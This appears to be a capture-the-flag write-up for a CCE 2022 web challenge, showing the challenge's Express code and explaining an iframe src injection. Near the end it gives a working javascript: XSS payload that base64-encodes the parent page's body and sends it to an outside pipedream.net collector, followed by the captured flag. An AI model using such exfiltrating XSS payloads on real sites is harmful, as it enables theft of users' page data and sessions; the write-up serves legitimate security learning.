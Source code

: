 ```javascript

// /app/route/routes.js
```
The saveArchive() function is called when creating an archive.

```javascript
const express = require('express')
const { encode } = require("html-entities");

const app = express()

app.get('/', function (req, res) {
    data = `<html>
<head><title>sandbox</title></head>
<body>
<script>
FLAG = "cce2022{this_is_not_real_flag}"
</script>
<iframe src="${encode(req.query.url)}" style="width: 100%; height: 100%; border: 0"></iframe>
</body>
</html>`
    res.setHeader("Content-Type","text/html").send(data);
})

app.listen(process.env.PORT);

// /sandbox/src/index.js
```
When I checked the code of /sandbox/src/index.js, I could see that there was a FLAG in the Dom. And it gets the value of the url parameter from the iframe part and passes it as the value of src as it is. We can trigger XSS because we can manipulate the value of src at will.
<img src='https://imgur.com/WlcrFK1.png'>

The structure of the dome is as above. The vulnerability occurs in Iframes. But the flag is in Parent Dom.

![](https://cdn.discordapp.com/attachments/966582609377361920/1023369845242347611/2022-09-25_08.06.17.png)

So we must read the value of window.parent.document.body. If the value of document.body is read, the document of the only iframe is read.

```plain-text
http://sandbox.bluearchive.kr:31337/?url=javascript:location.href=%2527https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/%2527%252Bbtoa(window.parent.document.body.innerHTML)
```
We can get the flags by sending the above payload to the archive creation logic

![](https://cdn.discordapp.com/attachments/966582609377361920/1023371633534181396/2022-09-25_08.13.21.png)
```plain-text
cce2022{65f6d035ca6640b9ac8e19ff725a747f}
```